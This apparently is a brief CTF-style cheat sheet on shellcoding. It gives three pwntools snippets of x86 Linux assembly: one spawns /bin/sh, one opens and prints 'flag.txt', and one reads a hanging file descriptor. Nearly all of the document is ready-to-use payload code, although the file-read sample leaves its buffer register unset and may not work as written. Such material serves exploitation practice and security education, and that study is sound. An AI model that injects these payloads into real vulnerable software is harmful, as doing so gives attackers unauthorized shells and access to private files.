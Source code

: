 # Shellcoding

## Overview

> Shellcoding is the process of writing x86 assembly instructions to achieve a desired goal, commonly executing a shell or reading a file.

## Samples

### `/bin/sh`

```python
shellcode = asm('''
    xor eax, eax
    push eax     

    push 0x68732f2f   
    push 0x6e69622f 

    mov ebx, esp   
    push eax

    push ebx
    mov ecx, esp
    mov al, 0xb     

    int 0x80
''')
```


### `read('flag.txt')`

```python
# OPEN A FILE (flag.txt)
# PRINT FIRST 10 bytes
# CLOSE FILE
shellcode = asm('''
    mov eax, SYS_open

    push 0x0
    push 0x7478742e
    push 0x67616c66

    mov ebx, esp
    mov ecx, O_RDONLY  
    int 0x80

    mov edi, eax        

    mov eax, SYS_read       
    mov ebx, edi
    mov ecx, esi       
    mov edx, 0xa        
    int 0x80

    mov eax, SYS_write     
    mov ebx, 0x1
    mov edx, 0xa

    mov ecx, esi
    int 0x80
''')
```

### `read(fd)`

```python
# read a hanging/open file descriptor

shellcode += asm('''
	xor ebx, ebx

    mov eax, SYS_read
    mov ebx, 0x3e8
    mov ecx, esp
    mov edx, 0xbe
    int 0x80

    mov eax, SYS_write
    mov ebx, 0x1
    mov edx, 0xbe
    mov ecx, esp
    int 0x80
''')
```
